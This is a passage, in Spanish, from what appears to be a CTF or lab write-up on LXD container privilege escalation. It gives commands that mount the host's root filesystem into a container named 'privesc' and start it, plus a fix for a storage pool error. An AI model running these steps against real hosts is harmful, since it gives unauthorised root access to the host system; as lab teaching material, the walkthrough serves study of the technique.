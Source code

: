 📜 Verificar contenedores existentes

```bash
lxc list
```

![](../img/eeaa6ecb4cd3e535921a5043dc5d5076.png)

🗂️ Montar el sistema del host en el contenedor

```bash
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Esto añade como volumen compartido el **root (`/`) del host** al contenedor, montado dentro de `/mnt/root`.

📌 **Resultado**:

![](../img/871298b49d6b01e936688af5c3fc990e.png)

### ⚠️ Problema común: No storage pool found

Si aparece este error:

```bash
Error: No storage pool found. Please create a new storage pool
```

Solución: Ejecuta `lxd init` y acepta los valores por defecto. Luego repite los pasos anteriores


## 🔓 Escalada de privilegios final

### 🚀 Ejecutar el contenedor

```bash
lxc start privesc
```

![](../img/7b57a8fd278c9ac7920e877e6f7ee4c1.png)
